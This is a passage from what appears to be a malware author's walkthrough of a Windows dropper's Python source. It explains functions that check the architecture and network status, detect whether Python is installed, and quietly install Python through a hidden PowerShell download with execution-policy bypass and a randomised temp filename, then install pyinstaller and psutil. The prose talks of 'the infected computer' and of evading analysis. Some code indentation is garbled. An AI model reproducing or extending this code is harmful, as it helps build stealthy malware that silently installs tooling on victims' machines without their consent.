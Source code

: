 Next check if the current process is a 64-bit using `platform` lib this function it’s gone be called later in `InstallPy` to determine which version of python should be installed, a simple if statement.  
  

```python
os_p = 64
        if not Is64Bit():
            os_p = 32
```

`IsOnline` This function simply checks if the infected computer is online using the “request” lib to get an HTTP response If TRUE, pass if not, the program will delete it itself, Desperate ways to avoid analysis.  
  
```python
def IsOnline():   
    try:       
        x = requests.get('https://google.com', verify=False)           
            return True               
        except:                   
            return False
```

## _Interpreter
`IsPyExist` Here am using os.path.exists to see if python path exist in infected computer this can be done also by using subprocess to execute powershell cmd to check the version of python this way we can tell if python is present on the infected computer or not._  
  


```python
    p = subprocess.run(['powershell',
                        """$p = &{python -V} 2>&1;$version = if($p -is [System.Management.Automation.ErrorRecord]){$p.Exception.Message}; $p"""],
                       stdout=subprocess.PIPE, stderr=subprocess.STDOUT, shell=True, startupinfo=startupinfo)
    p.stdout.decode()
    return True
    for num in range(10, 45):
        if os.path.exists(f"C:/Users/{os.getlogin()}/Appdata/Local/Programs/Python/Python{num}/python.exe"):
            return True
            return False
```

`InstallPy` The goal of this function is to install Python on the infected machine. The idea is that we are installing our interpreter using a language that is already built into Windows.  
  


```python
def InstallPy():
    os_p = 64
    if not Is64Bit():
        os_p = 32
    rand_py = f'python{random.randrange(111, 9999999)}.exe'
    url = "https://www.python.org/ftp/python/3.8.1/python-3.8.1-amd64.exe" if os_p == 64 else "https://www.python.org/ftp/python/3.8.1/python-3.8.1.exe"
    subprocess.run(
        f"""powershell -ep Bypass -WindowStyle Hidden -Command "iwr -Uri {url} -OutFile c:/users/$env:username/appdata/local/temp/{rand_py}" """)
    if os.path.exists(f"c:/users/{os.getlogin()}/appdata/local/temp/{rand_py}"):
        subprocess.run(
            f"c:/users/{os.getlogin()}/appdata/local/temp/{rand_py} /quiet InstallAllUsers=0 Include_launcher=0 PrependPath=1 Include_test=0")
    os.remove(f"c:/users/{os.getlogin()}/appdata/local/temp/{rand_py}")
    subprocess.run("python -m pip install --upgrade pip")
    subprocess.run("python -m pip install pyinstaller psutil")
```